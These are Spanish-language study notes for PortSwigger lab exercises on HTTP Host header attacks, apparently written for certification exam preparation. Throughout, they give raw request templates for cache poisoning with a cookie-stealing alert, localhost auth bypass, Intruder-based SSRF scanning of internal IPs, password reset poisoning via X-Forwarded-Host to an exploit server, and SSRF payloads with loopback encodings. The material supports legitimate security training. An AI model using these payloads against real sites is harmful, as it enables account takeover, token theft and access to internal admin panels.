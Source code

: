 <hr>
## Qué es la cabecera HTTP Host?

La cabecera HTTP Host es una cabecera de solicitud obligatoria a partir de HTTP/1.1. Especifica el nombre de dominio a la que el cliente quiere acceder. Por ejemplo, cuando un usuario visita `https://portswigger.net/web-security`, su navegador compondrá una solicitud que contiene una cabecera de Host de la siguiente manera:

```
GET /web-security HTTP/1.1
Host: portswigger.net
```

En algunos casos, como cuando la solicitud ha sido remitida por un sistema de intermediarios, el valor de los hostels puede modificarse antes de que llegue al componente de back-end previsto. A continuación se discutirá este escenario con más detalle.

## Qué es un ataque de cabecera HTTP Host?

Los ataques de encabezados HTTP Host explotan sitios web vulnerables que manejan el valor de la cabecera de Host de una manera insegura. Si el servidor confía implícitamente en la cabecera de Host, y no lo valida o escapa adecuadamente, un atacante puede ser capaz de utilizar este intromisivo para inyectar cargas útiles dañinas que manipulan el comportamiento del lado del servidor. Los ataques que implican inyectar una carga útil directamente en la cabecera de Host a menudo se conocen como ataques de "inyección de cabecera de hosta".

Cualquiera de estos headers a añadir. 
- `X-Host`
- `X-Forwarded-Server`
- `X-HTTP-Host-Override`
- `Forwarded`
### LAB: Host Header Web Cache Poisoning Vía Ambiguous Request `alert`

```js
//Modificar el HOST, añadiendo un cache buster de test. 
GET /?cb=jsjsj HTTP/1.1
Host: web-security-academy.net
Host: Exploit-Server.net

//En exploit server -> store & deliver exploit to victim
alert(document.cookie)

//Actualizar el request al home. 
```

### LAB: Host Header Auth Bypass `admin`

```js
//admin interface is only accesible via Local

GET /admin HTTP/1.1
Host: localhost
```

### LAB:  Host Header Routing-Based SSRF `192.168.0.0/24` `admin` `Host` out of band resource load

* Algo **muy importante** en este ataque es que el Header **Host** en la opción de intruder toca darle > Desactivar Host Header Automatico, sino vale chimba ahi siempre va a remplazar el host header por el legitimo. 

![Burp-scanner](Pasted%20image%2020250220214811.png)

Si el lab no tiene login, no tiene post comments, retorna 404 el /admin y además tampoco podemos ingresar como un user, el ataque es directamente por aqui. 

Hay algo que toca definir antes de partir a resolver el laboratorio, nos brindan una ip con su notación CIDR, sin embargo en la mayoría de casos un atacante pensaría que debería atacar a los dos últimos octetos de bits de la IP lo cual es errado, en este caso vemos un octeto de notación `/24` lo cual significa que:

```jsx
192.168.0.0/24 -> 8+8+8=24 los 3 primeros octetos están estaticos
192.168.0 (ocupados) .0 (disponible para ataque brute force)
```

- La interfaz `/admin` de por sí no existe, cuando la pongo en request retorna not found, entonces el ataque lo dirigiré por intruder con param posición en el último octeto y el endpoint en `/admin` hasta que una response me retorno 200, con los posibles numeros del 0-255 iniciando en el 1, 255 porque claro es la cantidad octeto de bits posibles de cada octeto.

![[Pasted image 20250220080835.png]]

* Desactivar el Host Header automatico & ignore.  !!!!!!!!!!!!!!!!!
* Payloads Numbers [0-255] - `GET /admin HTTP/1.1`

```js
SSRF to access admin panel somewhere in 192.168.1.0/24
-> confirm you can change host to your collaborator
-> deselect in intruder update host header to match target
-> Host: 192.168.0.§1§
```

### LAB:  SSRF via flawed request parsing `192.168.0.0/24` `admin` `Host vulnerable`

* Y el campo check: Update Host header to match target lo desactivo efectivamente.

```js
GET https://vulnerable-website.com/admin HTTP/1.1
Host: 192.168.0.§1§ //intruder attack
Connection: Close
Content-Length: ... etc

//luego vemos que para eliminar un user es con el method POST y ahí en la misma response nos da un token CSRF para tal acción: 
---->
POST https://Vulnerable-website.com/admin/delete?username=carlos&csrf=ValueCSRF HTTP/2
Host: 192.168.0.125 //pero 125 claramente puede cambiar en otro ataque.

username=carlos //el username que queremos eliminar, aunque para terminos del BSCP nos basta con interpretar admin con el GET / HTTP/2 y teniendo el Host con la IP correcta. 
```

### LAB: Host validation bypass via connection state attack `Paralell Single Connection` `admin panel`

* Un ataque en repeater de tipo `Paralell Single Connection` 2 Request, una legitima la otra modificada intencionalmente. 
* (in the exam it would be probably `localhost:6566`)

```js
// REQUEST 1 -> Legitima
GET / HTTP/1.1
Host: ID-LAB.com
Connection: keep-alive

// REQUEST 2 -> Maliciosa
GET /admin HTTP/1.1
Host: 192.168.0.1
```

### Spoof IP Address Host Header

> _**Identify**_ that altered HOST headers are supported, which allows you to spoof your IP address and bypass the IP-based brute-force protection or redirection attacks to do password reset poisoning.

> Include the below `X-` headers and change the username parameter on the password reset request to `Carlos` before sending the request.  
> In the BSCP exam if you used this exploit then it means you have not used a vulnerability that require user interaction and allow you to use an interaction vulnerability to gain access to stage 3 as admin by using exploit server `Deliver exploit to victim` function.

```html
X-Forwarded-Host: EXPLOIT.net
X-Host: EXPLOIT.net
X-Forwarded-Server: EXPLOIT.net
```

> Check the exploit server log to obtain the reset link to the victim username.

[![Exploit Server Logs capture the forgot password reset token](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/HOST-Header-forgot-password-reset.PNG)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/HOST-Header-forgot-password-reset.PNG)

> SSRF Sample payloads.

```html
/product/nextProduct?currentProductId=6&path=https://EXPLOIT.net  

stockApi=http://localhost:6566/admin  

http://127.1:6566/admin  

Host: localhost
```

> Alternative IP representation of `127.0.0.1`:

1. 2130706433
2. 017700000001
3. 127.1

